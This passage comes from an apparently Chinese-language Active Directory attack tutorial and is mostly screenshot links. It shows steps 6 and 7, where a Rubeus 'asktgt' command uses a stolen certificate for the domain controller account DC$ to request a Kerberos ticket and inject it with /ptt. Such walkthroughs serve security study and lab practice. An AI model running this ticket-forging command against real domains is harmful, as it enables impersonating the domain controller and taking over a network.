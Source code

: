 [![](assets/1701606771-274d9123ae3361ac3ae4bcd3495db26f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144503-03a8b6fc-7c70-1.png)  
Step 6：在域内主机 Win08-Server 上使用普通域用户登录并访问域控  
[![](assets/1701606771-01c1527b8422d965bc338a6a98fdfe69.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144513-09649340-7c70-1.png)  
Step 7：利用上面获取到的证书，获取 TGT 并注入

```plain
#格式：
Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt

#示例：
Rubeus.exe asktgt /user:DC$ /certificate:打印出来的 base64 证书数据 /ptt
```
